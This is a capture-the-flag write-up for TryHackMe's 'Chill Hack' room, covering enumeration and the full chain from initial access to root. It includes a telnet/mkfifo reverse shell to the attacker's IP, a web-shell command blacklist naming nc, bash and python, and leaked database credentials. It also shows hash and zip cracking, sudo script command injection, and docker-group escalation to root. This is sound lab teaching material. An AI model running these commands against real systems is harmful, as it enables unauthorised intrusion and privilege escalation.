

# Chill Hack
**Date:** May 10th 2022

**Author:** j.info

**Link:** [**Chill Hack**](https://tryhackme.com/room/chillhack) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>


<br>

## Objectives
- User flag
- Root flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 10.10.83.158`

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Game Info
```

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.83.158 -t 100 -r -x php,txt,html -w dir-med.txt`

```bash
/about.html           (Status: 200) [Size: 21339]
/blog.html            (Status: 200) [Size: 30279]
/images               (Status: 200) [Size: 16281]
/index.html           (Status: 200) [Size: 35184]
/css                  (Status: 200) [Size: 4333] 
/fonts                (Status: 200) [Size: 4762] 
/contact.php          (Status: 200) [Size: 0]    
/contact.html         (Status: 200) [Size: 18301]
/secret               (Status: 200) [Size: 168]  
/news.html            (Status: 200) [Size: 19718]
/team.html            (Status: 200) [Size: 19868]
/js                   (Status: 200) [Size: 3378]
```

<br>

## FTP Digging

We noticed a file called **note.txt** in the nmap scan above and that **anonymous access** is allowed. I connect over and download it. Displaying it:

```bash
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

So that gives us 2 potential usernames, and that we'll likely have to defeat some sort of filtering on the website.

<br>

## Website Digging

Visiting the main page:


The search box doesn't actually work, so no injection possible there.

The **login** and **register** buttons don't go anywhere either.

Visiting the **contact** page gives us a potential email:

```
info@sportyleague.com
```

The **about**, **team**, **news**, and **match** pages don't have anything interesting.

The **blog** page has 3 articles posted that are all idential and don't let you open them up, but there is a search box on this page that accepts input.

Looking through **/images**, **/css**, **/fonts**, and **/js** don't give us anything useful.

I save **/secret** for last and find out it's a built in web shell:



I try an **ls** command and get this:


Oh no they're on to me! This must be the filter the ftp file talked about.

Running a **whoami** command works though:


We can also use the **echo** command:


**cat**, **less**, and **more** are also not allowed. I try and use the **echo** command like this and it works to display **/etc/passwd**:


Users with shells:

```bash
root:x:0:0:root:/root:/bin/bash
aurick:x:1000:1000:Anurodh:/home/aurick:/bin/bash
apaar:x:1001:1001:,,,:/home/apaar:/bin/bash
anurodh:x:1002:1002:,,,:/home/anurodh:/bin/bash
```

We can see those 3 users all have home dirctories:


I look through all 3 users home directories looking for **.ssh** folders and find that **apaar** has one:


Let's see if I can add my ssh key to their authorized_keys file and connect over that way:

`echo $(echo "<MY KEY>") > /home/apaar/.ssh/authorized_keys`

No luck, we don't have write access to that file. I was able to write it over to /tmp/test.txt as a test though. so the command is working.

<br>

## System Access

I check if the **telnet** command is on the system and it is, and it's also not filtered, so let's see if we can get a reverse shell that way.

I setup a listener on my system and then use [**this reverse shell from revshells.com**](https://www.revshells.com/).

```
TF=$(mktemp -u);mkfifo $TF && telnet 10.6.127.197 4444 0<$TF | /bin/bash 1>$TF
```


```bash
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.83.158] 47702
whoami
www-data
hostname
ubuntu
```

A quick shell fix:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`stty raw -echo; fg`

`export TERM=xterm-256color`

`stty rows 25 columns 124`

```bash
www-data@ubuntu:/var/www/html/secret$
```

<br>

## System Enumeration

In the directory we end up in (**/secret**) we can see the **index.php** file we've been interacting with via the webshell. Inside is a list of the filtered commands for those who are curious:

```php
$blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
```

Checking `ps aux` shows us that containers are likely in use on the system:

```
root      1038  0.0  2.3 764292 48108 ?        Ssl  14:38   0:05 /usr/bin/containerd
root      1344  0.0  3.9 754444 80076 ?        Ssl  14:38   0:01 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/cont
```

There is also an SQL database:

```bash
mysql     1280  0.0  8.6 1162116 177248 ?      Sl   14:38   0:03 /usr/sbin/mysqld --daemonize --pid-file=/run/mysqld/mysqld
```

```bash
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
```

<br>

## SQL Digging

In the **/var/www/files** directory we see a file called **index.php** with the following in it:

```php
try
	{
		$con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
		$con->setAttribute(PDO::ATTR_ERRMODE,PDO::ERRMODE_WARNING);
	}
```

Let's see if we can access the SQL database with those credentials.

`mysql -h localhost -D webportal -u root -p`

```bash
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 4
Server version: 5.7.31-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

`show databases;`

```bash
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webportal          |
+--------------------+
```

`use webportal;`

`show tables;`

```bash
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
```

`select * from users;`

```bash
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
```

<br>

## Password Cracking

I add both hashes to a file and run it through **hashcat** using **rockyou**:

`hashcat -m 0 -w 3 -D 1,2 hash.txt rockyou.txt`

```bash
686216240e5af30df0501e53c789a649:<REDACTED>
7e53614ced3640d5de23f111806cc4fd:<REDACTED>
Recovered........: 2/2 (100.00%) Digests
```

I try and ssh over to both users with these and it unfortunately does not work.

<br>

## Additional Enumeration

Running `sudo -l` shows us:

```bash
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

Looking at the script:

```bash
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

<br>

## apaar user

We have the ability to run the script as user **apaar** and it looks like whatever you enter into the second question gets stored in **$msg** and then gets run. We should be able to get a shell as apaar with this by entering **/bin/bash** into the second question:

`sudo -u apaar /home/apaar/.helpline.sh`

```bash
Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: asdf
Hello user! I am asdf,  Please enter your message: /bin/bash
whoami
apaar
```

I fix my shell and then head over to **/home/apaar** where we find **local.txt** which contains the **user flag objective**.

`wc -c local.txt`

```bash
46 local.txt
```

In order to avoid having to go back through the webshell and switching users I create ssh keys with **ssh-keygen**:

```bash
Generating public/private rsa key pair.
Enter file in which to save the key (/home/apaar/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/apaar/.ssh/id_rsa.
Your public key has been saved in /home/apaar/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:bQkR+AnU95grixNp/EnzpiL6Ka4ikuY+Neo3N17Y+ec apaar@ubuntu
The key's randomart image is:
+---[RSA 2048]----+
|     ..oo.       |
|      o ...      |
|       o.o +     |
|        ooo..    |
|     . .S +.     |
|   o  B =..      |
| .o .o O *       |
|=+.o.+= = o.     |
|X*=+*o.o.+oE     |
+----[SHA256]-----+
```

I transfer the **id_rsa** private key back to my system through a simple python http server.

Since we see a **/run/docker.sock** out there I check to see if we can look at **docker images** and we're not allowed:

`docker images`

```bash
Got permission denied while trying to connect to the Docker daemon socket at unix:///var/run/docker.sock: Get http://%2Fvar%2Frun%2Fdocker.sock/v1.40/images/json: dial unix /var/run/docker.sock: connect: permission denied
```

<br>

## Steganography

Not having much else to go on I look around the system more and back in the **/var/www/files** directory there is another directory called **images**. It turns out the **hacker-with-laptop_23-2147985341.jpg** file has hidden contents using steganography. I understand this is a CTF but just say no to steganography lol.

'steghide extract -sf hacker-with-laptop_23-2147985341.jpg'

```bash
Enter passphrase:
wrote extracted data to "backup.zip".
```

Trying to unzip it shows password protection:

```bash
Archive:  backup.zip
[backup.zip] source_code.php password: 
   skipping: source_code.php         incorrect password
```

I run the zip file through **zip2john**:

`zip2john backup.zip > hash`

And then run the hash through **John the Ripper**:

`john hash --wordlist=rockyou.txt`

```bash
<REDACTED>        (backup.zip/source_code.php)     
```

Afterwards I unzip the file and look at the **source_code.php** file:

```php
if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")
```

Running that through a base64 decoder:

`echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d`

```bash
<REDACTED>
```

<br>

## anurodh user

I try and ssh over with the password we just found and am able to login as **anurodh**:

```bash
anurodh@ubuntu:~$ whoami
anurodh
```

Checking `id`:

```bash
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

We have access to the **docker group** so let's see if we can use that to our advantage.

`docker images`

```bash
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              latest              a24bb4013296        23 months ago       5.57MB
hello-world         latest              bf756fb1ae65        2 years ago         13.3kB
```

`docker run -it -v /:/host/ alpine chroot /host/ bash`

```bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@15646baf06c9:/# whoami
root
root@15646baf06c9:/# hostname
15646baf06c9
root@15646baf06c9:/#
```

We were able to successfully mount the alpine image as root.

Looking in **/root** shows us a **proof.txt** file:


<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Extracting information from an **FTP** site we could login to anonymously
- Finding an embedded **webshell** on the website and using it to enumerate and establish an initial foothold
- Discovering**SQL database** credentials in a file on the system
- Finding password hashes in the **SQL** database and cracking them
- Taking advantage of a poorly written **bash script** to move laterally over to another user
- Using **steghide** to extract hidden information from an image file
- Using **zip2john** to create a hash of a zip file and then crack it using **John the Ripper**
- Finding additional credentials inside the files we extract from the zip file and using them to move laterally again
- The last user we moved to was a member of the **docker group** allowing us to mount an image as root and gain access to sensitive information

<br>

Many thanks to:
- [**Anurodh**](https://tryhackme.com/p/Anurodh) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)